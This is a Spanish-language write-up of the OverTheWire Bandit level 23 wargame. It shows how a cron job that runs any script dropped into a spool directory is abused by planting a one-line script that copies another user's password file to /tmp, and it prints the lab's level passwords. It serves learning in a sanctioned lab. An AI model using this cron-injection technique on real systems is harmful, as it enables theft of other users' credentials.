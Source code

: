 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

Un programa se ejecuta automáticamente a intervalos regulares desde **cron**, el programador de trabajos basado en el tiempo. Busque en **/etc/cron.d/** la configuración y vea qué comando se está ejecutando.

**NOTA:** Este nivel requiere que crees tu propio primer script de shell. ¡Este es un gran paso y deberías estar orgulloso de ti mismo cuando superes este nivel!

**NOTA 2:** Tenga en cuenta que su script de shell se elimina una vez ejecutado, por lo que es posible que desee conservar una copia...
## Datos de usuario
Usuario: ssh bandit23@bandit.labs.overthewire.org -p 2220
Contraseña: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solución 
1.- Para poder solucionar este nivel primero empece con indagar sobre que hay dentro como en nivel anterior ingresando comando:
`cd /etc/cron.d`
Para previamente hacer lo siguiente: 
bandit23@bandit:~$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir


2.- Aplicamos entonces el siguiente comando: 
cat /etc/cron.d/cronjob_bandit24`
Esto para poder ver que es lo que hay dentro de nuestro archivo

`bandit23@bandit:/etc/cron.d$ cat /etc/cron.d/cronjob_bandit24`
`@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null`
* `* * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null`
`bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh`
`#!/bin/bash`

`myname=$(whoami)`

`cd /var/spool/$myname/foo`
`echo "Executing and deleting all scripts in /var/spool/$myname/foo:"`
`for i in * .*;`
`do`
    `if [ "$i" != "." -a "$i" != ".." ];`
    `then`
        `echo "Handling $i"`
        `owner="$(stat --format "%U" ./$i)"`
        `if [ "${owner}" = "bandit23" ]; then`
            `timeout -s 9 60 ./$i`
        `fi`
        `rm -f ./$i`
    `fi`
`done`
El cual nos arroja el siguiente comando como pista:
`cd /var/spool/$myname/foo`
3.- Finalmente aplicamos los siguientes comandos para poder crear el script temporal y ejecutarlo, para que nos de la contraseña: 
En esta linea se hace cambio de directorio para poder ver hacia que ruta vamos:
bandit23@bandit:/etc/cron.d$ cd /var/spool/bandit24/foo

Esta linea la use como referencia que nos da al ejecutar un comando anterior la cual es la siguiente:
`echo "Executing and deleting all scripts in /var/spool/$myname/foo:"`

`bandit23@bandit:/var/spool/bandit24/foo$ echo "cat /etc/bandit_pass/bandit24 > /tmp/bandit24_test.txt" >bandit24.sh`
Cabe recalcar que solo sustituí los datos como se observa


Finalmente, aplicamos los permisos para poder ejecutar nuestro scrpit y así obtener la contraseña como se muestra a continuación: 
`bandit23@bandit:/var/spool/bandit24/foo$  chmod 777 bandit24.sh`
`bandit23@bandit:/var/spool/bandit24/foo$ cat /tmp/bandit24_test.txt``
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Contraseña obtenida en este nivel 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
## Notas 
En este nivel pude desarrollar la habilidad de poder crear scripts y mediante el comando chmod (num de instrucción que se desea ejectuar) pude realizar el darle los permisos necesarios al usuario para poder ejecutar sin problemas nuestro scritp y así poder acceder al siguiente nivel sin ningún problema. Por ejemplo investigando aprendí que en Chmod el número 7 nos permite lectura, escritura y ejecución de nuestro script de ahí viene la linea :`chmod 777 bandit24.sh`
ya que está linea nos permitió ejecutar el script y así obtener la contraseña.
## Referencias 
https://www.ionos.mx/digitalguide/servidores/know-how/asignacion-de-permisos-de-acceso-con-chmod/
https://www.howtogeek.com/437958/how-to-use-the-chmod-command-on-linux/
https://gospelidea.com/blog/que-son-los-permisos-chmod#:~:text=Los%20permisos%20CHMOD%20a%20trav%C3%A9s,incluye%20servidores%20dedicados%20o%20VPS.

